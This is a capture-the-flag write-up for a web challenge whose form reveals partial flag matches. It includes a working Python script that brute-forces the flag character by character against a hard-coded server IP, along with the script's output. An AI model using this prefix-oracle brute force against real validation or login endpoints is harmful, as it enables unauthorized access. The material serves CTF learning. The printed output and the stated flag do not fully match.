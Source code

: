 # Step by step

Author: X4v1l0k

## Website

![site](./site.png)</br>
Looks simple enough, when I entered `NETON{`:</br>
![message](./message.png)</br>
This message popped up in the top left corner. So we know what to look for, now just the source:
```html
<!DOCTYPE html>
<html>
	<head>
	</head>
	<body>
				<form action="/index.php" method="post">
			<div align='center'>
				<h1>Try to find the flag</h1>
				<input type="text" placeholder="Flag" name="flag" required>
				<hr>
				<button type="submit" name="send" class="boton">Send</button>
			</div>
		</form>
	</body>
</html>
```
On a correct part we get:
```html
<!DOCTYPE html>
<html>
	<head>
	</head>
	<body>
		Hey, you are a bit close than before!		<form action="/index.php" method="post">
			<div align='center'>
				<h1>Try to find the flag</h1>
				<input type="text" placeholder="Flag" name="flag" required>
				<hr>
				<button type="submit" name="send" class="boton">Send</button>
			</div>
		</form>
	</body>
</html>
```
And if we send a wrong one:
```html
<!DOCTYPE html>
<html>
	<head>
	</head>
	<body>
		Sorry, wrong flag!		<form action="/index.php" method="post">
			<div align='center'>
				<h1>Try to find the flag</h1>
				<input type="text" placeholder="Flag" name="flag" required>
				<hr>
				<button type="submit" name="send" class="boton">Send</button>
			</div>
		</form>
	</body>
</html>
```
As before, we know what url to send our POST request to, and what is the name of our input `flag`. Time to script!

## solve.py

We will need requests:
```py
import requests
```
Then we can start firing off our attempts to the website. Oh! And we will also need:
```py
import string
```
To have our full alphabet ready. So at first I used just string.printable. But there is one problem, it begins with `0` and that is just one part of the flag, so I modified the alphabet (after a hint from N0xi0us. Thanks! <3):
```py
alphabet = string.printable[10:]+string.printable[:10]
```
Then the rest is straightforward, just check for the error or the good message and do this until the whole flag appears:
```python
import requests
import string

alphabet = string.printable[10:]+string.printable[:10]

url = 'http://167.99.129.209:7788/index.php'

check_string = 'Hey, you are a bit close than before!'
fail = 'Sorry, wrong flag!'

flag = ''
i = 0
while True:
	i = i + 1
	for a in alphabet:
		try:
			data = { 'flag' : flag+a }
			re = requests.post(url,data=data)

			if check_string in re.text:
				flag = flag+a
				print(f'Iteration: {i} Next: {flag}')
		
		except KeyboardInterrupt as k:
			print('exit')
			raise k
		except Exception:
			pass

```
And the output:
```Java
python .\solve.py
Iteration: 1 Next: a
Iteration: 1 Next: ag
Iteration: 1 Next: ag
Iteration: 2 Next: ag i
Iteration: 2 Next: ag is
Iteration: 2 Next: ag is:
Iteration: 2 Next: ag is:
Iteration: 3 Next: ag is: S
Iteration: 4 Next: ag is: Su
Iteration: 4 Next: ag is: SuB
Iteration: 5 Next: ag is: SuBs
Iteration: 5 Next: ag is: SuBsT
Iteration: 6 Next: ag is: SuBsTr
Iteration: 6 Next: ag is: SuBsTr1
Iteration: 7 Next: ag is: SuBsTr1n
Iteration: 7 Next: ag is: SuBsTr1nG
Iteration: 8 Next: ag is: SuBsTr1nGs
Iteration: 8 Next: ag is: SuBsTr1nGs_
Iteration: 8 Next: ag is: SuBsTr1nGs_4
Iteration: 9 Next: ag is: SuBsTr1nGs_4r
Iteration: 9 Next: ag is: SuBsTr1nGs_4r3
Iteration: 10 Next: ag is: SuBsTr1nGs_4r3_
Iteration: 11 Next: ag is: SuBsTr1nGs_4r3_F
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_Fu
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_FuN
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_FuN_
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_FuN_4
Iteration: 13 Next: ag is: SuBsTr1nGs_4r3_FuN_4n
Iteration: 13 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD
Iteration: 13 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_
Iteration: 14 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C
Iteration: 14 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0
Iteration: 15 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0u
Iteration: 15 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uL
Iteration: 16 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD
Iteration: 16 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_
Iteration: 17 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b
Iteration: 17 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3
Iteration: 18 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_
Iteration: 19 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_v
Iteration: 19 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vU
Iteration: 20 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUl
Iteration: 20 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln
Iteration: 20 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3
Iteration: 21 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3r
Iteration: 21 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rA
Iteration: 22 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAb
Iteration: 22 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL
Iteration: 22 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3
```
So the flag is `NETON{SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3}`